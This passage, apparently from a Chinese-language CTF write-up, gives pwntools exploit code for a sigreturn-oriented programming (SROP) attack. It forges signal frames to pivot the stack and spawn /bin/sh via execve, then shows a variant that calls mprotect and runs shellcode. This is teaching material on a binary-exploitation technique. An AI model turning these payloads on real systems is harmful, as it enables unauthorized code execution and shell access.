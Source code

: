 ```python
info('stack_addr = ' + hex(stack_addr))

payload = p64(main_addr) + p64(syscall_addr) # main为了之后的输入，syscall_ret用来调用sigreturn
frame = SigreturnFrame()
frame.rax = constants.SYS_read # sys_read的调用号
frame.rdi = 0
frame.rsi = stack_addr
frame.rdx = 0x400
frame.rsp = stack_addr
frame.rip = syscall_addr
payload += str(frame) # 读0x400个字节到新的栈上，并把栈搬到新的栈上
raw_input('@fake sigcontext to pivot stack')
p.send(payload)

payload = p64(syscall_addr).ljust(15, 'A') # 将rax设置成15，并把返回地址设为syscall_ret（覆盖上面的syscall_ret以及部分frame中的flags）
raw_input('@set rax=15')
p.send(payload)

# 下面开始往新的栈上写东西
bin_sh_addr = stack_addr + 2 * 8 + len(SigreturnFrame()) # 设置“/bin/sh”字符串的地址
payload = p64(main_addr) + p64(syscall_addr) # main为了之后的输入，syscall_ret用来调用sigreturn
frame = SigreturnFrame()
frame.rax = constants.SYS_execve # sys_execve的调用号
frame.rdi = bin_sh_addr
frame.rip = syscall_addr
payload += str(frame) + '/bin/sh\x00' # 开shell
raw_input('@fake sigcontext to exec shell')
p.send(payload)

payload = p64(syscall_addr).ljust(15, 'A') # 将rax设置成15，并把返回地址设为syscall_ret（覆盖上面的syscall_ret以及部分frame中的flags）
raw_input('@set rax=15')
p.send(payload)

p.interactive()
```

第二种方法即在新的栈上写东西时构造出 mprotect 的调用，并添加 shellcode：

```python
payload = p64(main_addr) + p64(syscall_addr)
frame = SigreturnFrame()
frame.rax = constants.SYS_mprotect
frame.rdi = stack_addr & 0xfffffffffffff000
frame.rsi = 0x1000
frame.rdx = 0x7
frame.rsp = stack_addr + 0x108 # 设置栈的位置
frame.rip = syscall_addr
payload += str(frame)
payload += p64(stack_addr + 0x110) # 设置return的地址
payload += asm(shellcraft.sh())
p.send(payload)
```
